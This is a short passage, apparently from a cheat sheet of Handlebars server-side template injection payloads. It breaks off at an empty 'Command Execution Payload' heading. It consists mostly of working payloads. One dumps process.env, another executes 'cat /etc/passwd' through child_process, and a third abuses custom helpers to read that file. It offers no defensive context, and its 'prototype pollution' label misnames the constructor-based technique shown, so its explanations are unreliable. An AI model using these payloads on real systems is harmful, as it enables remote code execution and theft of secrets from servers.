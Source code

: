 First, try to confirm if Handlebars is vulnerable:

```
{{7*7}}
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.env"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Exploiting Prototype Pollution

One approach is to use prototype pollution:

```
{{#with "constructor" as |c|}}
  {{#with (lookup c "constructor") as |cc|}}
    {{#with (lookup cc (lookup cc "name")) as |ccc|}}
      {{#with "return process.mainModule.require('child_process').execSync('cat /etc/passwd')" as |cmd|}}
        {{ccc cmd}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Using Helper Functions

If custom helpers are registered, they can sometimes be exploited:

```
{{#if (helper "/etc/passwd")}}{{/if}}
```

## Command Execution Payload

For direct command execution:
